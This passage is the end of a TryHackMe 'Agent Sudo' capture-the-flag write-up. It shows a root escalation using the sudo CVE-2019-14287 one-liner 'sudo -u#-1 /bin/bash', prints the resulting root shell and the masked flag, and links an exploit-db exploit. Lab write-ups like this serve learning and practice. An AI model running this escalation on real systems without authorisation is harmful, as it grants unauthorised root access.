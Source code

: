 This exploit is for sudo version before 1.8.28 so it may work on the target. Let's try it :  
```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
[sudo] password for james: 
root@agent-sudo:~#
```

And we are root ! Let's get the root flag :  
```
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
***************************

By,
DesKel a.k.a Agent R
```

**Question : CVE number for the escalation**  
**Answer : CVE-2019-14287**

## Conclusion

This room was very cool and was very varied. There was some cracking using john, brute-force using hydra, steganography... I found another way to escalate our 
privileges but it is way more complex, [here](https://www.exploit-db.com/exploits/46978) it is. Thanks for this room and thanks for reading my write ups !







